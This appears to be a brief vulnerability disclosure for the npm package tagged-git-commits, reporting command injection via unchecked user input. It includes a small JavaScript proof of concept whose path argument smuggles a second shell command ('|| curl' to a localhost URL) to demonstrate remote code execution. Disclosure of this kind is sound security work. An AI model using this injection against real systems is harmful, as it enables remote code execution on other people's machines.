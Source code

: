 ## Vulnerability Description

The issue occurs because a `user input` is formatted inside a `command` that will be executed without any check. The issue arises here: https://github.com/aichbauer/node-tagged-git-commits/blob/master/index.js#L29

## PoC

```js
// poc.js
const taggedCommits = require('tagged-git-commits');

taggedCommits({
	path: './git || curl "http://localhost/RCE"',
});
```

## Impact
`RCE` on `tagged-git-commits` via `insecure command formatting`
